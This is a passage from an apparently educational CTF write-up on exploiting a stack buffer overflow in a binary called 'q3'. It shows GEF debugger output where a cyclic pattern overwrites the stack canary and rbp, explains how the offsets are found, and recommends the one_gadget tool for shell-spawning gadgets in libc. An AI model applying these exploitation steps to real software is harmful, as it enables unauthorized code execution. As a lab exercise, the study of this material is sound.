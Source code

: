 ```asm
0x00007fffffffdd18│+0x0008: 0x00007ffff7dcfa00  →  0x00000000fbad2288
0x00007fffffffdd20│+0x0010: "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"	 ← $rsi
0x00007fffffffdd28│+0x0018: "baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaaha[...]"
0x00007fffffffdd30│+0x0020: "caaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaia[...]"
0x00007fffffffdd38│+0x0028: "daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaaja[...]"
0x00007fffffffdd40│+0x0030: "eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka[...]"	 ← $rbp
0x00007fffffffdd48│+0x0038: "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555554810 <main+150>       call   0x555555554650 <fgets@plt>
   0x555555554815 <main+155>       mov    eax, 0x0
   0x55555555481a <main+160>       mov    rcx, QWORD PTR [rbp-0x8]
 → 0x55555555481e <main+164>       xor    rcx, QWORD PTR fs:0x28
   0x555555554827 <main+173>       je     0x55555555482e <main+180>
   0x555555554829 <main+175>       call   0x555555554630 <__stack_chk_fail@plt>
   0x55555555482e <main+180>       leave  
   0x55555555482f <main+181>       ret    
   0x555555554830 <__libc_csu_init+0> push   r15
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "q3", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555481e → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000055555555481e in main ()
gef➤  pattern search daaaaaaa
[+] Searching 'daaaaaaa'
[+] Found at offset 17 (little-endian search) likely
[+] Found at offset 24 (big-endian search) 
gef➤  pattern search eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka
[+] Searching 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka'
[+] Found at offset 32 (big-endian search) 
gef➤  p $rcx
$1 = 0x6161616161616164   <--- Canary value overwrtten
```

As you can see we have overwritten the canary and we have the `rcx` register offset and we have `rbp` register offset at 32 which would be `32 - 24 = 8`. 


###  One_gadget - The best tool for finding one gadget RCE in libc.so.6 

I can honsetly vouch for this tool, this was the first time I used it and it's just awesome. With this tool it was easier to find the gadgets for shell spwaning.

